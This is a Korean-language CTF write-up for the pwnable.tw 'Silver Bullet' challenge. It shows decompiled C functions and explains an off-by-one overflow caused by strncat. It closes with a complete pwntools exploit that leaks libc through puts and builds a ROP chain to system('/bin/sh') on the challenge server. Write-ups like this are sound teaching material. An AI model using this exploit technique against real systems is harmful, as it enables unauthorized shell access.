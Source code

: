 ```yaml
---
title: "[pwnable.tw]Silver Bullet"
date: 2020-1-26
ctf: Pwnable.tw
layout: post
published : false
---
```


3개 메뉴로 구성되어있는 바이너리다.

1번 메뉴를 보면 입력받은 걸 s에 저장한다.근데 존재하면 그냥 꺼집니다. 그리고 *(s+12)에는 사이즈를 저장한다.

```c
int __cdecl create_bullet(char *s)
{
  size_t v2; // ST08_4

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 48u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *(s + 12) = v2;
  return puts("Good luck !!");
}
```

2번 메뉴에서는 추가로 더 값을 쓸 수 있다. 여기서 strncat이라는 함수를 사용해서 값을 이어붙일 수 있다. 그런데 48을 넘길 수는 없다.

```c
int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 48u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *(dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *(dest + 12));
  strncat(dest, &s, 48 - *(dest + 12));
  v3 = strlen(&s) + *(dest + 12);
  printf("Your new power is : %u\n", v3);
  *(dest + 12) = v3;
  return puts("Enjoy it !");
}
```

3번 메뉴인데 특이한점은 *(a1+48) 즉 사이즈만큼 계속 빼준다. *a2의 초기값은 2147483647이다.

```c
signed int __cdecl beat(int a1, _DWORD *a2)
{
  signed int result; // eax

  if ( *a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *a2 -= *(a1 + 48);
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}
```

strncat에서 off-by-one 취약점이 일어난다. 이 함수를 보면 a와b의 문자열을 합치는데 a뒤의 널바이트를 제거하고 b뒤에 널바이트를 붙인다. 1번 메뉴에서 47개를 입력하고 2번 메뉴에서 1개를 입력하면 널바이트가 추가된다. 48개 뒤에는 *(s+12)위치인데 이 위치에는 사이즈를 저장한다. 여기서 사이즈를 초기화 시킬 수 있다. 그러면 입력을 더 받을 수 있고 ROP가 가능하다. 

puts를 leak해주고 main으로 돌아가려면 3번메뉴에서 main함수에서 return 1을 해줘서 다시 초기 main으로 돌아올 수 있다. 아까 했던거 처럼 똑같이해줘서 리턴을 원하는곳으로 갈 수 있으므로 원샷 날리던지 system함수로 쉘을 띄우면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./silver_bullet')
p = process('./silver_bullet')
p = remote('chall.pwnable.tw',10103)
#libc = e.libc
libc = ELF('./libc_32.so.6')
pebx = 0x08048475 # pop ebx ; ret

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

# buf = 0x34 = 52
payload = 'A'*7 # 'A'*47 + A + '\x00' + 'A'*7 = 56
payload += p32(e.plt['puts']) + p32(pebx) + p32(e.got['puts']) # ret
payload += p32(e.symbols['main'])
p.sendlineafter(':','2')
p.sendafter(':',payload)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

puts = u32(p.recvuntil('\xf7')[-4:])
log.info('puts : ' + hex(puts))
libc_base = puts - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

oneshot=[0x3a819,0x5f065,0x5f066]
payload2 = 'A'*7
#payload2 += p32(libc_base + 0x3a819) #one_shot
payload2 += p32(libc_base + libc.symbols['system']) + p32(pebx) + p32(libc_base + libc.search('/bin/sh\x00').next())
p.sendlineafter(':','2')
p.sendafter(':',payload2)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

p.interactive()
```

